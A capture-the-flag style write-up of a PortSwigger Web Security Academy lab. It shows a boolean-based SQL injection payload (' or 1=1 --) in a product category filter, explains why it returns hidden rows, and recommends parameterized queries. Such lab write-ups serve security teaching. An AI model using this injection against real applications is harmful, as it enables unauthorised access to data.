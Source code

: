 
---

- ** 🎯 Target:** SQL injection Lab - vulnerability in WHERE clause allowing retrieval of hidden data
- ** 🧑‍💻 Author:** sonyahack1
- ** 📅 Date:** 10.05.2025

---

## 🔍 Intercepting request 

> I intercept the request in the product category filter in BurpSuite:

```http

GET /filter?category=Pets HTTP/2
Host: 0ad20070035e51de80f5531f000400cf.web-security-academy.net
Cookie: session=JwFMOw2KWBHSBohtlqtnlcSF1rm0vHQa
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad20070035e51de80f5531f000400cf.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> Need to force the application to display additional hidden products on the page.

> Testing SQL injection in the `category` parameter using a logical expression (Boolean-Based SQL injection):

```http

GET /filter?category=' or 1=1 -- HTTP/2

```

> **Result: display unreleased products**
![unreleased_product](./screenshots/unreleased_product.png)

> It's work.

> **Note** this works because `OR 1=1` always returns true; `--` symbol is used as a comment in SQL syntax. Anything after it is ignored.
> So it turns out that the logical expression with `or` in this case with `WHERE category = '' or 1=1` results in all rows from the `products` table being selected without filtering
> by category.

> **Result: solved lab**
![solved_lab](./screenshots/solved_lab.png)

## conclusion

> To protect against Boolean-Based SQL injection, you can use prepared statements. That is, instead of substituting data directly into the SQL string `"SELECT * FROM products WHERE category = '" + user_input + "'"`
> use `cursor.execute("SELECT * FROM products WHERE category = ?", (user_input,))`. This way, user input is not interpreted as part of the SQL query.

> You also need to escape the quote characters - `' '` and `" "` (but it is better to use parameterization).

